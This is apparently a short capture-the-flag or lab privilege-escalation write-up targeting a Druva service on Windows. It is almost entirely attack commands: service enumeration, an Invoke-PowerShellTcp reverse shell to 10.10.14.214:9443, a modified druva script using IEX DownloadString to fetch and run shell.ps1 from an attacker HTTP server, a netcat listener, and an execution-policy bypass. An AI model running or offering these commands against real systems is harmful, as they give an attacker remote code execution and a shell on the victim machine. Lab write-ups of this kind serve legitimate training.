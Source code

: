```
get-process -Id 3324
```
### Enumerating running service
```
get-service | ? {$_.DisplayName -like 'Druva*'}
```
```
get-service | ? {$_.DisplayName -like 'VMware*'}
```
### Invoke-PowerShellTcp.ps1
Add in the information listed to the bootome of the script and rename it shell.ps1
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.214 -Port 9443
```
### druval.ps1
Modify the powershell script for Reverse Shell
```
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.214:8080/shell.ps1')"
```
### start HTTP Server
```
python3 -m http.server 8080
```
### Start listener
```
nc -lvnp 9443
```
### Modify the Powershell Execution Polciy
```
set-ExecutionPolicy Bypass -Scope Process
```
Execute the duval.ps1, I had to use Powershell ISE to get it to work properly. 




